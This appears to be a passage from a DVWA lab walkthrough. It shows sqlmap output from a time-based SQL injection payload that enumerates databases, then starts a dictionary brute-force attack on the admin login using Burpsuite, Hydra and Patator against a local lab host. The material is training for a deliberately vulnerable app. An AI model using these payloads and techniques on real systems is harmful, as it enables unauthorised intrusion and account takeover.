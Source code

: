 ```txt
    Payload: id=1' OR SLEEP(5)#&Submit&Submit
---
[13:50:22] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[13:50:22] [INFO] fetching database names
[13:50:22] [INFO] fetching number of databases
[13:50:22] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[13:50:22] [INFO] retrieved: 2
[13:50:22] [INFO] retrieved: dvwa
[13:50:27] [INFO] retrieved: information_schema
available databases [2]:
[*] dvwa
[*] information_schema
```

### Brute Force

The so-called brute force attack consists of producing what is defined in MITRE as `Unauthorized access` specifically on the account of a user, for this purpose a dictionary attack is performed (trying all the predefined passwords in a dictionary).

The Burpsuite, Hydra and Patator tools will be used for this attack.

It is worth mentioning the honorable mention of the crunch tool which can be used to generate these password dictionaries, however it has not been necessary to use it since both Kali and Parrot have a series of wordlists (dictionaries) in the `/usr/share/wordlists` folder.
#### Low

As usual we start by intercepting a request with Burpsuite (it has already been explained several times how to do it...).

```txt
GET /vulnerabilities/brute/?username=admin&password=123&Login=Login HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://172.17.0.2/vulnerabilities/brute/?username=a&password=z&Login=Login
DNT: 1
Connection: close
Cookie: PHPSESSID=lil7dlgeij03e1p484m90hl8m6; security=low
Upgrade-Insecure-Requests: 1

```

For the sake of simplicity we assume that the user whose access we need to breach is `admin`.
Now we are going to use a tool that performs the brute force automatically, it is worth mentioning that Burpsuite has an option that would also serve for this purpose more specifically is located in the Intruder tab.
